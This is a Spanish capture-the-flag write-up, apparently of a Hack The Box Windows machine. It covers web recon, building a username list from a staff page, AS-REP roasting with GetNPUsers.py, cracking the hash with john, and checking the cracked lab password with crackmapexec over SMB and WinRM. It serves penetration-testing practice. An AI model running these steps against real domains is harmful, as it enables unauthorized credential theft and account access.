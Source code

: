 ### Analyzando la web {-}

#### Whatweb {-}

```bash
whatweb http://10.10.10.175
```

Es un IIS 10.0

#### Checkear la web {-}

Si entramos en la url `http://10.10.10.175`, Vemos una pagina Egotistical Bank. Navegando por el `about.html` vemos usuarios potenciales. Vamos a recuperarlos
con bash

```bash
curl -s -X GET "http://10.10.10.175/about.html"
curl -s -X GET "http://10.10.10.175/about.html" | grep "p class=\"mt-2"
curl -s -X GET "http://10.10.10.175/about.html" | grep "p class=\"mt-2" | grep "Fergus Smith" -A 100 | html2text > users
```

Modificamos el fichero users para crear nombres de usuarios como `fsmith`,`f.smith`,`frank.smith`, `smithf`, `smith.frank` o otros y intentamos un asproasting attack.
## Vulnerability Assessment {-}

### Asproasting {-}

```bash
GetNPUsers.py egotistical-bank.local/ -no-pass -usersfile users
```

Aqui vemos un hash para el usuario `fsmith`. Lo copiamos en un fichero `fsmith_hash` y intentamos romperlo con john.

### Crackeando el hash con John {-}

```bash
john -wordlists=/usr/share/wordlists/rockyou.txt fsmith_hash
```

Validamos el usuario con crackmap exec

```bash
crackmapexec smb 10.10.10.175 -u 'fsmith' -p 'Thestrokes23'
```

El usuario es valido pero no tenemos un Pwn3d. Checkeamos si es valido con winrm

```bash
crackmapexec winrm 10.10.10.175 -u 'fsmith' -p 'Thestrokes23'
```

Ademas de ser valido, aqui no pone un Pwn3d! que significa que podemos conectarnos con Evil-WinRM.
## Vuln exploit & Gaining Access {-}
